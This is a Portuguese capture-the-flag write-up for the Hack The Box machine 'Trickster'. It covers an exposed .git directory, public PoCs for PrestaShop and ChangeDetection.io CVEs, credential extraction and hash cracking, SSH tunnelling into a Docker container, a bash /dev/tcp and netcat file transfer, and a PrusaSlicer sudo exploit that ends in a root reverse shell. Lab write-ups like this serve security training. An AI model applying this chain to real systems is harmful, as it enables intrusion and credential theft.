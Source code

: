 # Trickster

## Resumo

Essa máquina permite acesso inicial ao identificar um diretório .git exposto, e utilizar uma CVE para obter acesso como www-data. Após isso, é necessário escalar privilégios lateralmente por meio de um pivoting para um docker executando o serviço ChangeDetection.io, e utilizar uma outra CVE para obter uma shell ao docker em execução. No docker, estão disponíveis arquivos de backup do ChangeDetection, os quais ao serem restaurados acabam revelando as credenciais do usuário adam. Como usuário adam, está disponível a execução de um software de manipulação de arquivos de impressora 3D como root. Entretanto, esse software é vulnerável a um exploit que permite a execução arbitrária de comandos, o que permite escalar privilégios como root e obter a flag final.

## Reconhecimento

Assim que obtive o endereço IP da máquina, realizei uma varredura de portas utilizando o Rustscan e o Nmap, identificando os seguintes serviços em execução na máquina:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCk493Dw3qOjrvMEEvPT6uj4aIc7vb9chLLQr0Wzjiaf8hZ1yXMO6kwPuBjNaP6GouvFd0L7UnpacFnIqkQ9GOk=
|   256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ3pOUJRCVS6Y1fhIFs4QlMFAh2S8pCDFUCkAfaQFoJw
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como apontado pelo Nmap, ao tentar acessar a porta 80 ocorre um redirecionamento para `http://trickster.htb`, sendo necessário adicionar esse endereço ao arquivo `/etc/hosts` da minha máquina Linux:

```bash
echo "${IP_ALVO} trickster.htb" | sudo tee -a /etc/hosts
```

Agora é possível navegar para esse domínio para analisar o conteúdo da página:

<figure><img src="../../../.gitbook/assets/ctfhtbtricksterhomepage.png" alt=""><figcaption><p>HTB Trickster - Página inicial</p></figcaption></figure>

O resultado é uma página estática que não contém nenhuma informação relevante, além de um link que redireciona para o subdomínio `shop.trickster.htb`. Novamente, foi necessário adicionar esse endereço ao arquivo `/etc/hosts` da minha máquina Linux. Alterei a linha adicionada anteriormente para obter esse resultado:

```bash
# Endereço IP apenas para exemplificar, troque pelo real endereço da máquina!
10.10.XX.XX trickster.htb shop.trickster.htb
```

Acessando a página `http://shop.trickster.htb`, é possível encontrar um e-commerce que utiliza o PrestaShop:

<figure><img src="../../../.gitbook/assets/ctfhtbtrickstere-commerce.png" alt=""><figcaption><p>HTB Trickster - E-commerce</p></figcaption></figure>

## Varredura

Realizando uma varredura com o Feroxbuster, foi possível encontrar vários arquivos e diretórios, porém um diretório `.git` foi o que mais chamou atenção. Acessando esse diretório pelo navegador, é listado o índice da página:

<figure><img src="../../../.gitbook/assets/ctfhtbtrickster.git.png" alt=""><figcaption><p>HTB Trickster - .git</p></figcaption></figure>

Com isso, baixei o diretório utilizando o `wget` na minha máquina para analisar. Acessando o diretório baixado e utilizando o comando `git log`, o seguinte commit é revelado:

```log
commit 0cbc7831c1104f1fb0948ba46f75f1666e18e64c (HEAD -> admin_panel)
Author: adam <adam@trickster.htb>
Date:   Fri May 24 04:13:19 2024 -0400

    update admin pannel
```

Utilizando o comando `git status`, é possível observar que existe um diretório que fazia parte do repositório, porém que não foi baixado:

<figure><img src="../../../.gitbook/assets/ctfhtbtricksteradmin-directory.png" alt=""><figcaption><p>HTB - diretório do painel de admin exposto</p></figcaption></figure>

## Exploração

Pesquisando sobre o PrestaShop, aplicação de e-commerce utilizada pela página, é possível encontrar uma [CVE](https://nvd.nist.gov/vuln/detail/CVE-2024-34716) em que é necessário apenas o endereço do painel de admin do PrestaShop e um nome de usuário (que encontramos anteriormente como autor do commit). Com isso, é possível executar a [PoC](https://github.com/aelmokhtar/CVE-2024-34716) disponível no GitHub e obter acesso à máquina como usuário `www-data`.

## Pós-Exploração

### Escalando Privilégios Lateralmente

#### Usuário James

Navegando pelos arquivos do PrestaShop como o usuário `www-data`, é possível encontrar informações sensíveis no arquivo `~/prestashop/app/config/parameters.php`. Nesse arquivo, é revelado um usuário e senha para o banco de dados da aplicação:

<figure><img src="../../../.gitbook/assets/ctfhtbtricksterparameters.php.png" alt=""><figcaption><p>HTB Trickster - parameters.php</p></figcaption></figure>

Após conectar ao banco de dados, é possível extrair o usuário `adam@trickster.htb` e seu hash de senha:

<figure><img src="../../../.gitbook/assets/ctfhtbtrickstercompromised-db.png" alt=""><figcaption><p>HTB Trickster - Banco de dados comprometido</p></figcaption></figure>

Após utilizar o John para crackear esses hashes, foi possível obter acesso SSH ao usuário `james`, sendo possível obter a primeira flag.

#### Usuário Adam

Após um processo de reconhecimento na máquina, identifiquei um contêiner Docker em execução na máquina. Por meio de um Ping Sweep, foi possível descobrir o endereço IP do contêiner. Transferindo o nmap para a máquina, é possível varrer os serviços desse contêiner e encontrar a porta 5000 aberta Realizando encaminhamento de porta via SSH, obtive acesso à porta. 5000 do contêiner:

```bash
ssh james@trickster.htb -L 5000:172.17.0.2:5000
```

Acessando essa página, o serviço em execução é o [ChangeDetection.io](https://changedetection.io/), e é possível se autenticar com a senha do usuário `james`.

<figure><img src="../../../.gitbook/assets/2025-01-03_16-22.png" alt=""><figcaption><p>HTB Trickster - ChangeDetection.io</p></figcaption></figure>

Pesquisando sobre esse serviço, foi possível encontrar uma [CVE](https://nvd.nist.gov/vuln/detail/CVE-2024-32651) ao qual ele é vulnerável e uma [PoC](https://github.com/s0ck3t-s3c/CVE-2024-32651-changedetection-RCE) que explora essa vulnerabilidade. Executando a PoC conforme as instruções do GitHub, é possível obter acesso como usuário `root` ao contêiner (lembrando que o listener do netcat deve ser executado na máquina do alvo, pois o contêiner não possui acesso à internet):

<figure><img src="../../../.gitbook/assets/ctfhtbtricksterroot-access-docker.png" alt=""><figcaption><p>HTB Trickster - acesso root ao contêiner</p></figcaption></figure>

Navegando pelo contêiner, é possível encontrar um diretório `datastore`, em que são armazenados os arquivos do ChangeDetection, incluindo os backups que podem ser encontrados no diretório `Backups` em formato ZIP. O contêiner possui poucos binários que permitem a transferência de arquivos, então utilizei o `/dev/tcp/{IP}/{PORT}` do BASH para baixar o arquivo para máquina do alvo:

```bash
# Na máquina de origem
cat "./${NOME_ARQUIVO}" > /dev/tcp/{IP_ALVO}/1337

# Na máquina de destino
nc -lnvp 1337 > "/tmp/${NOME_ARQUIVO}"

# PS: (troque ${NOME_ARQUIVO} pelo nome do arquivo)
```

Com isso, eu utilizei o `scp` para baixar o arquivo ZIP de backup para minha máquina:

```bash
scp james@trickster.htb:/tmp/${NOME_ARQUIVO} ./${NOME_ARQUIVO}
```

Pesquisando na documentação do ChangeDetection, encontrei um [tutorial](https://github-wiki-see.page/m/dgtlmoon/changedetection.io/wiki/Restoring-backup-files) de como restaurar um backup. Com isso, subi um contêiner do ChangeDetection na minha máquina e restaurei o backup extraído do alvo. Após restaurar o backup, acessei a página do ChangeDetection em execução na minha máquina e encontrei uma cópia do arquivo `parameters.php` (que encontramos inicialmente), porém dessa vez com as credenciais do usuário `adam`:

<figure><img src="../../../.gitbook/assets/ctfhtbtricksteradam-credentials.png" alt=""><figcaption><p>HTB Trickster - credenciais do usuário adam</p></figcaption></figure>

### Escalando Privilégios Verticalmente

Após acessar a máquina via SSH com o usuário `adam` e realizar um breve reconhecimento, é possível identificar por meio do comando `sudo -l` que ele pode executar o comando `/opt/PrusaSlicer/prusaslicer` como superusuário. Pesquisando sobre a ferramenta `PrusaSlicer`, é possível encontrar um exploit que permite execução de código como o usuário que está executando a ferramenta. Por fim, basta [clonar o repositório do GitHub](https://github.com/suce0155/prusaslicer_exploit) com o exploit, subir os arquivos para a máquina do alvo, executar o `PrusaSlicer` como root e esperar a shell reversa:

<figure><img src="../../../.gitbook/assets/ctfhtbtricksterroot-shell.png" alt=""><figcaption><p>HTB Trickster - Shell como root</p></figcaption></figure>

